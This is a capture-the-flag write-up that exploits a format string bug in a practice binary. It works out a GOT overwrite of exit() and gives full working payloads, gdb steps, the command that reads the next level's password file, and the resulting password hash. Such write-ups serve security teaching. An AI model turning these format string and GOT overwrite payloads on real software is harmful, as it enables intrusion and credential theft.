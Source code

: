 # Write up

Here again we have a `level5` binary with a format string to exploit.
This time, we have a `o` function which calls system, but this function is never call.
Since we can overwrite memory with the format string exploit, I will try to overwrite this instruction :
```
 80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>
```
By a `jump 080484a4` instruction.
The jump opcode is `eb [8bit relative offset]`, which is 2 bytes long.

We do the hex offset calculation : `80484ff - 080484a4 = 5B`.
The relative offset is `FF - 5A = A5`.

So we'll try to inject 60325 (eba5 in hex) at the `80484ff` address.

With the placeholder payload : 
```
AAAA.%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
AAAA.200 b7fd1ac0 b7ff37d0 41414141 2078252e 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 a 0 0
```
We get the exploitable address in 4th position.
We try this payload :
```
(printf "%b%s" "\xff\x84\x04\x08" "%60305d%x%x%n"; cat) | ./level5
```
However we get a segfault.

We debug it into gdb and notice that we have to write our instruction in little endian
```
(gdb) x 0x80484ff
0x80484ff <n+61>:     0xfffecce8
(gdb) set {int}0x80484ff=0x0000a5eb
(gdb) x 0x80484ff
0x80484ff <n+61>:     0x0000a5eb
(gdb) continue
Program received signal SIGSEGV, Segmentation fault.
0x080484a6 in o ()
```
Now the segfault occurs in the o function, we have to correct our offset and inject `0x0000a6eb`.
```
(gdb) set {int}0x80484ff=0x0000a6eb
(gdb) continue
Continuing.
test
test
$
```
Great ! We have our shell, now we have to execute this payload with printf, injecting 42731 at the 0x80484ff address.
```
(printf "%b%s" "\xff\x84\x04\x08" "%42711d%x%x%n"; cat) | ./level5
```
Sadly, we still get this strange segfault :
```
Program received signal SIGSEGV, Segmentation fault.
0xb7e7312c in vfprintf () from /lib/i386-linux-gnu/libc.so.6
```
With further research, it seems like the address here is non-writable and will not let us use this exploit, we have to find another method.

The first sourced site show us the Global Offset Table (GOT) exploit, since we have an exit call, we can try to overwrite it.
Using the `objdump -R level5` command, we get this line which interests us :
```
08049838 R_386_JUMP_SLOT   exit
```
We can access our shell within gdb setting the exit global pointer to the o function address :
```
(gdb) set {int}0x08049838=0x80484a4
```
Which leads us to a new payload :
```
(printf "%b%s" "\x38\x98\x04\x08" "%134513808d%x%x%n"; cat) | ./level5
```
Which gives us our shell and our flag
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Sources

https://resources.infosecinstitute.com/exploiting-format-strings-getting-the-shell/#gref
https://security.stackexchange.com/questions/138088/segmentation-fault-trying-to-exploit-printf-vulnerability
